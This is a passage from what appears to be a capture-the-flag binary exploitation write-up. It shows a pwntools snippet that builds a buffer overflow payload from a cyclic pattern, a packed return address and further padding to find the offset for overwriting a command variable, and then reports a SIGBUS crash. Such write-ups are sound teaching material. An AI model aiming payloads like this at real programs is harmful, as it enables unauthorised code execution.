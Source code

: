 and just like before, let's do cyclic after preserving return address to see our offset before overwriting the command variable.

```python
    io.sendlineafter(b'Username:', b'devolper')
    payload = cyclic(44)
    payload += p32(0x400b0c)
    payload += cyclic(200)    
    sleep(0.2)
    io.sendline(payload)
```

but before even we got to that point, we got a SIGBUS ERR instead

<figure><img src="../../.gitbook/assets/image (57).png" alt="" width="265"><figcaption></figcaption></figure>
